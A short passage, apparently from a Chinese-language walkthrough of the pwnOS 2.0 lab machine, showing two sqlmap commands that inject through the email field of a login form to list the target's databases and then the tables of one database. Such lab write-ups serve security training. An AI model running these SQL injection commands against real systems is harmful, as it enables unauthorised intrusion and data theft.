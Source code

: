 爆出数据库：

```bash
root@kali:~# sqlmap -u "http://10.10.10.100/login.php" --data="email=admin@test.com&pass=admin&submit=login&submitted=TRUE" -p email --dbs
```

![Alt text](/img/game/pwnos2.0/1511848670636.png)


爆表名：

```bash
root@kali:~# sqlmap -u "http://10.10.10.100/login.php" --data="email=admin@test.com&pass=admin&submit=login&submitted=TRUE" -p email -D ch16 --tables
```

![](/img/game/pwnos2.0/1511848833793.png)
